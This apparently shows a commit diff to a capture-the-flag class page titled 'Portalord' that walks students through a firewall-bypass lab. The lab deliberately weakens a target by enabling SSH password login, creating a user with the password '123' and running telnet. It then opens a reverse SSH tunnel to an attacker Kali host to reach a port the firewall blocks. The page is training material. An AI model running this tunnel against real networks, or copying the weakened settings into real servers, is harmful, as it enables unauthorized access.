

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/Portalord/Portalord.md, in a window 1280 px wide and 1400 px high, scrolled down 2039 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Portalord.md

```diff
--- a/classes/Portalord/Portalord.md
+++ b/classes/Portalord/Portalord.md
@@ -16,7 +16,7 @@ title: Portalord
 </div>
 
 ---
-# 1 remote ssh
+# Part 1: Remote ssh by binding highport to blocked port
 Use remote ssh to connect back to a localhost and get around ufw rules set up in the environment. This is helpful when firewall rules do not allow access to port 22 from the outside.
 
 
@@ -29,29 +29,39 @@ sudo ufw enable
 </div>
 
 Turn password authentication on for the ssh-closed-box.
-#### `sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh`
+<div class="scroll-box">
+sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
+</div>
 
 Create a file that is only accessable to an ssh session by setting a "read only by owner"
 <div class="scroll-box">
 echo "insert a flag here" > /home/ubuntu/ssh_flag.txt
 chmod 600 /home/ubuntu/ssh_flag.txt
 </div>
+
 chmod permissions: Read (r=4), Write (w=2), Execute (x=1)
 
-first int is the owner
+- first int is the owner
 
-second int is the group
+- second int is the group
 
-third int is others
+- third int is others
 
 so 600 = 4+2 for the owner and 0 for group and 0 for everyone else
 
 Create a user that can only access telnet specific files
-#### `sudo adduser teluser`
+<div class="scroll-box">
+sudo adduser teluser
+</div>
+
 - select a simple password (123)
 
 set limited permissions for teluser
-#### `sudo nano /usr/local/bin/telnet_shell.sh`
+
+<div class="scroll-box">
+sudo nano /usr/local/bin/telnet_shell.sh
+</div>
+Put the following restrictions on the telnet users /bin/bash:
 <div class="scroll-box">
 #!/bin/bash
 echo "You have limited access."
@@ -65,28 +75,34 @@ install and open telnet services
 sudo apt update && sudo apt install telnetd -y && sudo apt install openbsd-inetd -y
 </div>
 
-### On the attacker-box
+## On the attacker-box
 Install telnet if needed:
 <div class="scroll-box">
 sudo apt update && sudo apt install telnet -y
 </div>
 
 Turn on your ability to reverse ssh with a password:
-#### `sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh`
+<div class="scroll-box">
+sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
+</div>
 
-now telnet into the ssh-closed-box
-#### `telnet x.x.x.x`
-
-now bind a local high port to local 22
-
+Now telnet into the ssh-closed-box
+<div class="scroll-box">
+telnet x.x.x.x`
+</div>
+Now bind a local high port to local 22:
+<div class="scroll-box">
 ssh -N -R 2222:localhost:22 kali@your.kali.ip.addr.
-
+</div>
 -N means --no-shell, -R means:--remote-port-forward
 
 If it appears to "hang" you have an open connection
 
 Now from a differnt terminal on you kali localhost
-####'ssh -p2222 ubuntu@ssh.closed.box.ip
+<div class="scroll-box">
+ssh -p2222 ubuntu@ssh.closed.box.ip
+</div>
+What you are doing is connecting to your local port 2222, which has an open ssh session from the remote device. You are using that port 2222 to ssh to port 22 on the remote device which is only blocked at the firewall and not on the local machine.
 
 go and find your flag
 
```
